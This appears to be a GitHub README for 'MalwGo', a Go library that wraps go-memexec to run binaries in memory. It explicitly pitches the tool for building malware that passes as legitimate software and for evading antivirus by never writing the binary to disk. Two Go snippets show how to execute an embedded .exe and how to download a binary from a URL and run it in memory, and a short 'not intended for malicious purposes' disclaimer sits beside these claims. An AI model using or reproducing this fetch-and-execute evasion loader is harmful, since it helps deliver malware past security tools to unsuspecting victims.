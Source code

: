 # MalwGo (Malware + Go)

Notice: This project is a toy project built on top of [go-memexec](github.com/amenzhinsky/go-memexec) and is not intended to be used for malicious purposes.

Create a wrapper around any binary file to run it in memory. This can be useful to create for example a malware that runs like a legit software, and also to avoid antivirus detection (since the binary is not saved in the disk & can be downloaded from internet).

### Load a programm in memory from a embeded file

```go
package main

import (
    "fmt"
    "github.com/PiterWeb/malwgo"
    _ "embed"
)

//go:embed mybinary.exe
var MyBinary []byte

func main() {

    malgwo_inst, err := malwgo.New(&malwgo.Options{
        bin: MyBinary,
        onStart: func() {
            fmt.Println("Starting...")
        },
        onStop: func() {
            fmt.Println("Stopping...")
        },
        onBackground: func() {
            fmt.Println("Running in background...")
        },
    })

    if err != nil {
        fmt.Println(err)
        return
    }

    output, err := malgwo_inst.Exec(nil)

    if err != nil {
        fmt.Println(err)
        return
    }

    fmt.Println(output)
}
```

### Load a programm in memory from internet

```go
package main

import (
    "fmt"
    "github.com/PiterWeb/malwgo"
)

func main() {

    malgwo_inst, err := malwgo.New(&malwgo.Options{
        binUrl: "https://example.com/mybinary.exe",
        onStart: func() {
            fmt.Println("Starting...")
        },
        onStop: func() {
            fmt.Println("Stopping...")
        },
        onBackground: func() {
            fmt.Println("Running in background...")
        },
    })

    if err != nil {
        fmt.Println(err)
        return
    }

    output, err := malgwo_inst.Exec(nil)

    if err != nil {
        fmt.Println(err)
        return
    }

    fmt.Println(output)
}
```

### Thank you [amenzhinsky](github.com/amenzhinsky) for the [go-memexec](github.com/amenzhinsky/go-memexec) library

It is a very interesting library that allows to run a binary in memory. This project is a wrapper around it.